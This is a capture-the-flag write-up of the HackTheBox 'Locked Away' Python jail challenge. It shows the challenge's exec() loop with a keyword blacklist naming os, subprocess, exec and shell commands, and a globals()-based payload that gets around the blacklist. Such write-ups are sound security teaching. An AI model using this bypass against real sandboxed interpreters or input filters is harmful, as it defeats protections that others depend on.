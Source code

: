 ```yaml
---
title: "[HTB] Locked Away Writeup 🔒"
date: 2024-10-11 12:00:53
cover: >-
    https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/help-you-at-solving-hackthebox-htb-challenges-machines.png
categories:
    - - HackTheBox
    - - CTF
tags:
    - HTB
    - Misc
    - HackTheBox 
---
```


# 0x00 Challenge Info

> A test! Getting onto the team is one thing, but you must prove your skills to be chosen to represent the best of the best. They have given you the classic - a restricted environment, devoid of functionality, and it is up to you to see what you can do. Can you break open the chest? Do you have what it takes to bring humanity from the brink?

# 0x01 Reconnaissance

This challenge is a Python jail (Pyjail). Let's check the challenge code first.

```python
banner = r"""
.____                  __              .___    _____                        
|    |    ____   ____ |  | __ ____   __| _/   /  _  \__  _  _______  ___.__.
|    |   /  _ \_/ ___\|  |/ // __ \ / __ |   /  /_\  \ \/ \/ /\__  \<   |  |
|    |__(  <_> )  \___|    <\  ___// /_/ |  /    |    \     /  / __ \\___  |
|_______ \____/ \___  >__|_ \\___  >____ |  \____|__  /\/\_/  (____  / ____|
        \/          \/     \/    \/     \/          \/             \/\/     
"""


def open_chest():
    with open("flag.txt", "r") as f:
        print(f.read())


blacklist = [
    "import",
    "os",
    "sys",
    "breakpoint",
    "flag",
    "txt",
    "read",
    "eval",
    "exec",
    "dir",
    "print",
    "subprocess",
    "[",
    "]",
    "echo",
    "cat",
    ">",
    "<",
    '"',
    "'",
    "open",
]

print(banner)

while True:
    command = input("The chest lies waiting... ")

    if any(b in command for b in blacklist):
        print("Invalid command!")
        continue

    try:
        exec(command)
    except Exception:
        print("You have been locked away...")
        exit(1337)
```

This code created a restricted environment that banned some word and function, so how do we get the flag? First of all, we noticed that there's a function called `open_chest()`, and how to call that is the key point to this challenge. 

I noticed that the blacklist didn't forbidden the `()` & the `_`, that means we can use some magic function in python. There's a function called `globals()` in python that will return a dictionary of all global variables in the current module with the name as the key and the corresponding object as the value. This make us to call a function without typing that name of the function! So let's create the payload right away! 

# 0x02 Exploit

We can create a generator in python to iterate all global variables and filter the callable object (functions, method, etc). Following is the code of the generator.

```python
(f for f in globals().values() if callable(f))
```

Then, we need to find the first callable global variable, which is `open_chest()` in this challenge, so we can use the `__next__()` method to get the element in the iterator. 

```python
(f for f in globals().values() if callable(f)).__next__()
```

This will return the first callable function in this program, the last thing is to call it by adding `()` to it!

```python
(f for f in globals().values() if callable(f)).__next__()()
```

Voila! We got the flag!

![Pwned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20241011122557742.png)

# 0x03 Pwned

![Pwned](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20241011122714880.png)

